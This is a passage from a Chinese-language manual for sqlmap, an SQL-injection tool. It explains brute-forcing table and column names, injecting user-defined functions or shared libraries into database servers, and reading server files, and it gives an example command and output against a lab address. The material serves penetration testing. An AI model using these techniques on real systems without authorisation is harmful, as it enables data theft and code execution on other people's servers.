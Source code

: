 通常是如下情况：

	1、MySQL数据库版本小于5.0，没有information_schema表。
	2、数据库是Microssoft Access，系统表MSysObjects是不可读的（默认）。
	3、当前用户没有权限读取系统中保存数据结构的表的权限。
暴力破解的表在txt/common-tables.txt文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

	$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner
	
	[...]
	[hh:mm:39] [INFO] testing MySQL
	[hh:mm:39] [INFO] confirming MySQL
	[hh:mm:40] [INFO] the back-end DBMS is MySQL
	[hh:mm:40] [INFO] fetching banner
	web server operating system: Windows
	web application technology: PHP 5.3.1, Apache 2.2.14
	back-end DBMS operating system: Windows
	back-end DBMS: MySQL &lt; 5.0.0
	banner:    '4.1.21-community-nt'
	
	[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
	[hh:mm:40] [INFO] adding words used on web page to the check list
	please enter number of threads? [Enter for 1 (current)] 8
	[hh:mm:43] [INFO] retrieved: users
	
	Database: testdb
	[1 table]
	+-------+
	| users |
	+-------+

#### 暴力破解列名

	参数：--common-columns

与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。

#### 用户自定义函数注入

	参数：--udf-inject,--shared-lib

你可以通过编译MySQL注入你自定义的函数（UDFs）或PostgreSQL在windows中共享库，DLL，或者Linux/Unix中共享对象，sqlmap将会问你一些问题，上传到服务器数据库自定义函数，然后根据你的选择执行他们，当你注入完成后，sqlmap将会移除它们。

### 2.9系统文件操作

#### 从数据库服务器中读取文件

	参数：--file-read

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。
